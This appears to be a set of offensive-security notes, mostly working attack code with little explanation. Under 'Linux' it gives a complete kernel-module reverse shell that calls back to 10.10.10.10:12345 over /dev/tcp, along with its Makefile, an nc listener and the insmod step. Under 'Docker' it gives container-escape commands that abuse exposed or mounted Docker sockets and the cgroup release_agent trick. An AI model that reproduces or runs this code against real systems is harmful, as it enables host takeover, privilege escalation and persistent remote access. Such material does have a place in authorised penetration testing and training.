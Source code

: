 # General notes

## Linux
Kernel module:
- Makefile
```
obj-m +=kmod-rshell.o

all:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules

clean:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```
- kmod-rshell.c
```
#include <linux/kmod.h>
#include <linux/module.h>

MODULE_LICENSE("GPL");
MODULE_AUTHOR("someone");

char* argv[] =
  {"/bin/bash","-c","bash -i >& /dev/tcp/10.10.10.10/12345 0>&1", NULL};
static char* envp[] =
  {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };

static int __init rshell_init(void) {
  return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}

static void __exit rshell_exit(void) {
  printk(KERN_INFO "Exiting\n");
}

module_init(rshell_init);
module_exit(rshell_exit);
```
- listen
```
nc -nvlp 12345
```
- install
```
insmod kmod-rshell.ko
```

## Docker
Get capabilities provided (inside container):
```
capsh --print

```
Unprotected TCP socket:
```
docker -H tcp://<ip>:<port> run --rm -ti -v /:/mnt alpine chroot /mnt /bin/sh
```

Container mounted Docker socket:
```
docker run -v /:/host_root -ti alpine /bin/sh
```

Run command leveraging cgroup:
```
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`;
mkdir -p $d/w;
echo 1 >$d/w/notify_on_release;
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`;
touch /o;
echo $t/c >$d/release_agent;
printf '#!/bin/sh\nps >'"$t/o" >/c;
chmod +x /c;
sh -c "echo 0 >$d/w/cgroup.procs";
sleep 1;
cat /o;
```
